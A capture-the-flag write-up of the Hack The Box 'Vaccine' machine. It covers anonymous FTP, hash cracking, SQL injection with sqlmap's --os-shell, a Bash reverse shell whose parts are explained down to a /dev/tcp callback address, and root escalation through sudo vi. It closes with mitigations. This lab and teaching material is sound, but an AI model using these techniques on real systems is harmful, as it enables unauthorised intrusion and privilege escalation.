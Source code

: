 +++
title = "Hack The Box - Vaccine"
date = 2025-05-30

[taxonomies]
tags = ["hackthebox", "ftp", "sql", "sql injection", "reverse shell", "privesc"]
+++

[![TODO](/pictures/articles/htb/vaccine/00-cover.png)](https://www.hackthebox.com/achievement/machine/447801/289)

**Vaccine** is a Linux machine built to demonstrate the importance
of enumeration, and the dangers of chaining multiple vulnerabilities together
such as SQL injection, password hash cracking, anonymous guest access
and session cookie stealing.


<!-- more -->


## Enumeration

<!-- Enumeration {{{-->

The [nmap](https://nmap.org/) scan reveals the target machine has port 21
([FTP](https://en.wikipedia.org/wiki/File_Transfer_Protocol)),
port 22 ([SSH](https://en.wikipedia.org/wiki/Secure_Shell)), and
port 80 ([HTTP](https://en.wikipedia.org/wiki/HTTP)) open.

![a](/pictures/articles/htb/vaccine/01-nmap.png)

- `-sC`: Script scan
- `-sV`: Version detection

The webpage only presents a single login page which, for now, cannot be
bypassed.

![a](/pictures/articles/htb/vaccine/02-login.png)

There's also an FTP service running with the target machine that is allowing
anonymous login. The username should be `anonymous` and the corresponding
password is arbitrary.

![a](/pictures/articles/htb/vaccine/03-ftp-connect.png)

After logging in, the `dir` command can be used to list the available files.

There's only one file on the share, named `backup.zip`, which can be retrieved
using the `get backup.zip` command.

To exit the FTP session, issue the `exit` command.

![a](/pictures/articles/htb/vaccine/04-ftp-get.png)

`backup.zip` then needs to be extracted however, it is password-protected.

![a](/pictures/articles/htb/vaccine/05-unzip.png)

To crack the password, its hash needs to be extracted first from the encrypted
ZIP archive using `zip2john`.

![a](/pictures/articles/htb/vaccine/06-zip2john.png)

Then the extracted hash can be checked against the famous `rockyou` wordlist
using [John the Ripper](https://www.openwall.com/john/).

`john` shows that the password to unlock the ZIP is `741852963`.

![a](/pictures/articles/htb/vaccine/07-john-hashcrack.png)

The ZIP contains 2 files that can be investigated further.

![a](/pictures/articles/htb/vaccine/08-unzip.png)

[grep](https://en.wikipedia.org/wiki/Grep)ping `index.php` for `passw` reveals
a password hash stored for the `admin` user.

The found hash can be stored in a file for later use.

![a](/pictures/articles/htb/vaccine/09-pass-hash.png)

[hashID](https://psypanda.github.io/hashID/) confirms that it is indeed most
likely an [MD5](https://en.wikipedia.org/wiki/MD5) hash.

![a](/pictures/articles/htb/vaccine/10-hashid.png)

This hash can then be checked against the `rockyou` wordlist using `hashcat`.

![a](/pictures/articles/htb/vaccine/11-hashcat.png)

- `-a 0`: Dictionary attack mode
- `-m 0`: MD5 hash type

`hashcat` has cracked the hash and found the password `qwerty789`.

![a](/pictures/articles/htb/vaccine/12-hashcat-result.png)

It is now possible to log in to the website and enumerate its dashboard.

![a](/pictures/articles/htb/vaccine/13-login.png)

<!-- }}} -->

## Foothold

<!-- Foothold {{{-->

Upon running a search query, it reveals that the dashboard may actually be
connected with a backend database.

![a](/pictures/articles/htb/vaccine/14-test-query.png)

Intercepting the search query request with Burp Suite shows that there is a PHP
Session ID (`PHPSESSID`) being passed to the database in a form of a cookie.

![a](/pictures/articles/htb/vaccine/15-cookie.png)

The search query can be investigated with
[sqlmap](https://github.com/sqlmapproject/sqlmap) if it is SQL injectable.

![a](/pictures/articles/htb/vaccine/16-sqlmap.png)

- `u`: Target URL
- `--cookie`: HTTP header cookie value

`sqlmap` in its output displays multiple possible payloads to perform an
SQL injection.

To exploit the vulnerability, `sqlmap` should be called again but this time with
the additional `--os-shell` option to conclude in a shell.

![a](/pictures/articles/htb/vaccine/17-sqlmap-res.png)

The spawned `os-shell` is not so stable so it needs an additional payload
to make it work better.

To receive this incoming connection, a [netcat](https://en.wikipedia.org/wiki/Netcat)
should be set up listening an arbitrary port (e.g. `1234`).

![a](/pictures/articles/htb/vaccine/18-netcat.png)

The following Bash one-liner will initiate a connection from target back to the
attacker machine.

![a](/pictures/articles/htb/vaccine/19-payload.png)

- `bash`: Invoke a Bash shell
- `-c`: Execute the command that follows
- `bash -i`: Invoke another Bash shell instance
- `>&`: Redirect `stdout` and `stderr` to the specified location
- `/dev/tcp/10.10.15.127/1234`: Initiate a TCP connection to the specified
  address
- `0>&1`: Redirect `stdin` to `stdout`

The [netcat](https://en.wikipedia.org/wiki/Netcat)listener has successfully
received the connection resulting in a reverse shell.

![a](/pictures/articles/htb/vaccine/20-reverse-shell.png)

This shell isn't really stable either, it is disconnecting randomly, but it can
be utilized to look around on the system and retrieve the user flag.

![a](/pictures/articles/htb/vaccine/21-user-flag.png)

<!-- }}} -->

## Privilege escalation

<!-- Privilege escalation {{{-->

While exploring the web server's dedicated directories,
a password stored in clear text was discovered in a PHP file.

![a](/pictures/articles/htb/vaccine/22-user-password.png)

`sudo -l` shows that the current `postgres` user can launch `/bin/vi` as sudo to
edit a designated configuration file (`pg_hba.conf`).

![a](/pictures/articles/htb/vaccine/23-sudo-l.png)

According to [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#sudo)
there are multiple ways to break out from restricted environments by spawning an
interactive system shell.

One way is to open the configuration file with `vi` as `sudo`.

![a](/pictures/articles/htb/vaccine/24-vi-open.png)

Set the shell to `/bin/sh`.

![a](/pictures/articles/htb/vaccine/25-vi.png)

And then issue the `shell` command.

![a](/pictures/articles/htb/vaccine/26-vi.png)

After executing the commands, a `root` shell is spawned and the `root` flag can
be retrieved from the `/root` directory.

![a](/pictures/articles/htb/vaccine/27-root-flag.png)

By achieving root privileges, the machine is
[pwned](https://www.hackthebox.com/achievement/machine/447801/289).

<!-- }}} -->

## Mitigation

<!-- Mitigation {{{-->

1. Secure FTP Service
    - Disable anonymous logins and require authentication
    - Replace FTP with more secure protocols such as STFP

2. Web Application Security
    - Implement multi factor authentication mechanisms

3. SQL injection
    - Validate and sanitize all user inputs
    - Use prepared statements and parameterized queries to separate SQL code
    from data

4. Reverse Shell Prevention
    - Monitor and restrict outbound network traffic for patterns indicating
    reverse shell attacks

5. Sudo privileges
    - Implement the principle of least privilege when assigning sudo rights

6. Restrict configuration files
    - Ensure configuration files are accessible only for authorized users

7. Secure Shell Access
    - Restrict shell commands that can be executed
    - Monitor shell activity for suspicious behaviour

<!-- }}} -->
